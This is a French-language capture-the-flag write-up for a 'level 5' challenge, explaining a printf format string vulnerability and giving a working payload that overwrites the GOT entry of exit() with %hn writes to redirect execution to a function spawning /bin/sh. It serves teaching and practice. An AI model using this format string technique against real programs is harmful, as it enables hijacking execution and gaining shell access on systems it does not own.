 # Exploitation du niveau 5

## ✨ Objectif

Obtenir un shell en exploitant une vulnérabilité dans un binaire 32 bits. Le but est de rediriger l'exécution du programme vers la fonction `o()`, qui appelle `system("/bin/sh")`.

---

## 🔍 Analyse du binaire

### Fonctions importantes :

* `main()` : Appelle simplement la fonction `n()`
* `n()` :

  * Alloue un buffer sur la pile (0x218 octets)
  * Lit une chaîne de l'utilisateur avec `fgets`
  * Imprime cette chaîne avec `printf`
  * Appelle `exit()`
* `o()` : Appelle `system("/bin/sh")`

### Vulnérabilité :

La fonction `printf` est appelée **directement sur la chaîne contrôlée par l'utilisateur**, sans format string fixé.
Cela crée une vulnérabilité **de format string**.

---

## 🚫 Protection du binaire

* NX activé : oui
* Stack Canary : non
* PIE : non (important !)

---

## 🚀 Type d'exploitation utilisé

### Format String Exploit

Type : **GOT Overwrite** (redirection via `%n`)

Objectif : écraser l'entrée GOT de `exit()` (adresse dynamique appelée par `exit@plt`) pour la rediriger vers `o()`.

---

## ⚖️ Adresses utiles

| Cible         | Adresse      |
| ------------- | ------------ |
| o()           | `0x080484a4` |
| GOT[exit]     | `0x08049838` |
| GOT[exit] + 2 | `0x0804983A` |

On utilise `%hn` pour écrire 2 octets à la fois :

* `0x0804` dans `0x0804983A`
* `0x84a4` dans `0x08049838`

---

## 🔄 Construction du payload

### Ordre d'écriture

1. On écrit le **high** d'abord (`0x0804`) dans `GOT+2`
2. Puis le **low** (`0x84a4`) dans `GOT`

### Offsets

* Offset du premier argument contrôlé dans `printf`: `4`

### Payload Python final (en bytes):

```bash
python2 -c 'print("\x3a\x98\x04\x08" + "\x38\x98\x04\x08" + "%2044c%4$hn" + "%31904c%5$hn")'
```

### Explication des paddings

* 2 adresses = 8 octets imprimés
* 2052 (0x0804) - 8 = 2044
* 33956 (0x84a4) - 2052 = 31904

---

## ⚖️ Compilation

```bash
gcc -m32 -fno-stack-protector -no-pie -o level5 level5.c
```

---

## ✅ Résultat attendu

Une fois l'entrée injectée, `exit()` est appelé via la GOT, mais la GOT a été redirigée vers `o()`. Cela lance `system("/bin/sh")` :

✅ **Un shell est ouvert !**

---

## 🚀 Remarque finale

Cette exploitation ne repose sur **aucun dépassement de tampon**, seulement sur la mauvaise utilisation de `printf`. C'est un exemple classique d'erreur de format string dans un CTF de type pwn.

---
